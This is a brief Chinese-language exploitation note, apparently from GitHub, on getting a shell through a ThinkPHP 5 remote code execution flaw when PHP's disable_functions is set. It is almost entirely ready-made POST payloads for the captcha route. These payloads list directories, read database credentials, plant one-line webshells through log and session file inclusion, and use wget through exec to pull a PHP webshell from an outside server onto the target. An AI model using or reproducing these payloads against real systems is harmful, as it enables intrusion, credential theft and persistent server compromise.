 # Thinkphp bypass disable funtion

---

情况：tp5 rce可以执行phpinfo，但是其他可以getshell的函数不能使用

下面请求均为:

```
/?s=captcha
postdata:
```

- 方法1：文件读取数据库连接信息+phpmyadmin或者数据库外连，后续数据库getshell

  
  ```
  # 扫描路径下的文件并列出（通过phpinfo可以知道网站根目录的绝对路径）
  _method=__construct&filter[]=scandir&filter[]=var_dump&method=GET&get[]=路径
  # 读取文件内容
  _method=__construct&filter[]=highlight_file&method=GET&get[]=读取的文件路径
  ```
  
- 方法2：日志包含

  前提：日志泄露是否存在
  
  ```
  # 随便输入
  _method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=一句话

  # 包含日志执行phpinfo
  _method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../data/runtime/log/202110/17.log&c=phpinfo();
  ```
  
- 方法3：Session包含
  
  ```
  # 前提条件：session_start()
  # 设置session存入session缓存中
_method=__construct&filter[]=think\Session::set&method=get&get[]= 一句话&server[]=1
  
  # tp5的session文件均在/tmp/sess_sessionid  (sessionid=cookie里面的PHPSESSID)
  # phpinfo中session.save_path为session保存的路径，文件为：sess_sessionid
  _method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=/tmp/sess_ejc3iali7uv3deo9g6ha8pbtoi&c=phpinfo();
  ```
  
- 方法4：命令执行

  前提:目标是linux系统,如果是windows需要换命令
  
  ```
  # 公网搭建一句话的php
  s=wget http://xxxxxx/test.php&_method=__construct&method=get&filter[]=exec
  # 访问目标的/test.php
  ```
